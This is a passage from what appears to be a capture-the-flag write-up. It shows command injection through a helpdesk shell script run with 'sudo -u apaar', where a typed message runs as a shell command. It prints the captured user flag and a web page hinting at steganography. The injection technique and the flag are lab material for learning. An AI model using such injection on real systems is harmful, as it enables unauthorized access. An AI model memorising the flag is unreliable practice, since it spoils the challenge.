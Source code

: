If you notice `$msg 2>/dev/null` we can exploit that since it executes whatever you type as a command. We can escalate from there.

So we can type the name and then `cat local.txt` to get the first flag!

> {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

```abap
www-data@ip-10-201-23-34:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: apaar
Hello user! I am apaar,  Please enter your message: cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
Thank you for your precious time!
www-data@ip-10-201-23-34:/home/apaar$
```

---

## Recon & Steganography Clue

Now to escalate privileges. Going back to doing recon I found this:

```abap
www-data@ip-10-201-23-34:/var/www/files$ ls
account.php  hacker.php  images  index.php  style.css
www-data@ip-10-201-23-34:/var/www/files$ cat hacker.php 
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
	color:red;
	font-weight: bold;
}
h1
{
	color: yellow;
	font-weight: bold;
}
</style>
<center>
	<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
</head>
</html>
www-data@ip-10-201-23-34:/var/www/files$ 
```
